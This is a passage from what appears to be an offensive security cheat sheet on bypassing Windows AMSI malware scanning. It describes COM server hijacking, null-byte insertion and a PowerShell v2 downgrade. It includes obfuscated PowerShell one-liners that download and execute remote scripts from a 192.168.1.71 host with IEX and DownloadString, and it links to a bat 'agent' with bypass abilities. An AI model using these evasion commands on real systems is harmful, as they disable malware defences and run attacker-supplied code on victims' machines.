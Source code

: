       When AMSI attempts to starts its COM component, it will query its registered CLSID and return a
      non-existent COM server. This causes a load failure and prevents any scanning methods from being
      accessed, ultimately rendering AMSI useless. Now, when we try to run our “malicious” AMSI test sample,
      you will notice that it is allowed to execute because AMSI is unable to access any of the scanning
      methods via its COM interface:

![enigma0x3 - AMSI Bypass](http://i67.tinypic.com/2vv6x41.png)

- **Being mean** .. [ one agent.bat with AMSI bypass abilities ;) ]<br />

![enigma0x3 - AMSI Bypass](http://i65.tinypic.com/2rpv0hv.png)

[DLL hijacking technic applied to AMSI-Bypass.bat with agent exec abilities](https://pastebin.com/H2kjLCin)<br />

---

<br /> 

- **AMSI** bypass using nul bits [Satoshi]

      Bypass AMSI mechanism using nul bits before the actual funtion occurs.
      For file contents, insert "#<NULL>" at the beginning of the file, and any places
      where additional scans with AMSI occur. For command line contents, wrap them into
      Invoke-Expression and prepend 'if(0){{{0}}}' -f $(0 -as [char]) +'

<br />

- For **command line** contents<br />

       powershell IEX ('if(0){{{0}}}' -f $(0 -as [char]) + New-Object Ne'+'t.WebC'+'lient').DownloadString('ht'+'tp:/'+'/'+'19'+'2.168.1.7'+'1/Invoke-Hello.ps1')

- OR (using [#NULL] before the monitorized syscall)

      powershell Write-Host "#<NULL>"; I`E`X ('({0}w-Object {0}t.WebC{3}nt).{1}String("{2}19`2.168.1.71/hello.ps1")' -f'Ne','Download','http://','lie')

![enigma0x3 - AMSI Bypass](http://i.cubeupload.com/fU7e51.jpg)


- For file contents<br />

![enigma0x3 - AMSI Bypass](http://i64.tinypic.com/15d8gsy.png)

---

- Bypass or Avoid AMSI by **version Downgrade** <br />

      Force it to use PowerShell v2: PowerShell v2 doesn't support AMSI at the time of writing.
      If .Net 3.0 is available on a target Windows 10 machine (which is not default) PowerShell
      v2 can be started  with the -Version option.

<br />

![AMSI Bypass](http://i67.tinypic.com/1z6w1s2.jpg)
